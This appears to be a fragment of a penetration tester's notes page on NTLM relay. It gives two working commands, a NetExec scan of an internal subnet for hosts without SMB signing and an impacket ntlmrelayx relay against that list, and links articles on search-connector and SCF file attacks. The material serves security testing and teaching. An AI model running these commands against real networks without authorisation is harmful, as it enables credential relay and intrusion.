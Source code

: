 {% tabs %}
{% tab title="1. Enum" %}
```bash
nxc smb 172.16.10.0/24 --gen-relay-list relay.txt
```
{% endtab %}

{% tab title="2. Relay" %}
```bash
sudo impacket-ntlmrelayx.py -tf relay.txt -smb2support --no-http
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Search Connectors" %}
{% embed url="https://dtm.uk/exploring-search-connectors-and-library-files-on-windows/" %}
{% endtab %}

{% tab title="SCF File Attacks" %}
{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}
{% endtab %}
{% endtabs %}
